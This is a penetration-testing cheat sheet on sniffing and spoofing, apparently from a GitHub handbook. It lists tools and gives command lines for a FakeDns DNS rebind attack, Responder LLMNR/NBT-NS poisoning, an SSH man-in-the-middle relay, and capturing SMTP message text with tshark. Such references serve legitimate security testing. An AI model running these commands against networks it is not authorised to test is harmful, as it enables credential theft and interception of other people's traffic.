 # Sniffing & Spoofing

- [Resources](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#Resources)

## Table of Contents

- [FakeDns](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#FakeDns)
- [Responder](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#Responder)
- [SSH-MITM](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#SSH-MITM)
- [tshark](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#tshark)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| mDNS | A mDNS sniffer and interpreter. | https://github.com/eldraco/Sapito |
| mitm6 | mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. | https://github.com/dirkjanm/mitm6 |
| mitmproxy | mitmproxy is an interactive, SSL/TLS-capable intercepting proxy with a console interface for HTTP/1, HTTP/2, and WebSockets. | https://github.com/mitmproxy/mitmproxy |
| Responder | IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay. | https://github.com/lgandx/Responder |
| SSH-MITM | ssh mitm server for security audits supporting public key authentication, session hijacking and file manipulation | https://github.com/ssh-mitm/ssh-mitm |

## FakeDns

> https://github.com/Crypt0s/FakeDns

### DNS Rebind Attack

```c
$ cat fake.conf
A <DOMAIN> 127.0.0.1 1%<LHOST>
```

#### Start the Server

```c
$ sudo python3 fakedns.py -c fake.conf --rebind
```

#### Test

```c
nslookup > server <LHOST>
Default server: <LHOST>
Address: <LHOST>#53
> <FAKE_DOMAIN>
Server:         <LHOST>
Address:        <LHOST>#53

Name:   <FAKE_DOMAIN>
Address: 127.0.0.1
*## server can't find <FAKE_DOMAIN>: NXDOMAIN
> <FAKE_DOMAIN>
Server:         <LHOST>
Address:        <LHOST>#53

Name:   <FAKE_DOMAIN>
Address: <LHOST>
*## server can't find <FAKE_DOMAIN>: NXDOMAIN
>
```

## Responder

> https://github.com/lgandx/Responder

```c
$ sudo responder -I <INTERFACE>
```

## SSH-MITM

```c
$ ssh-mitm server --remote-host <RHOST>
$ socat TCP-LISTEN:<RPORT>,fork TCP:127.0.0.1:10022
```

## tshark

### Capturing SMTP Traffic

```c
$ tshark -i <INTERFACE> -Y 'smtp.data.fragments' -T fields -e 'text'
```
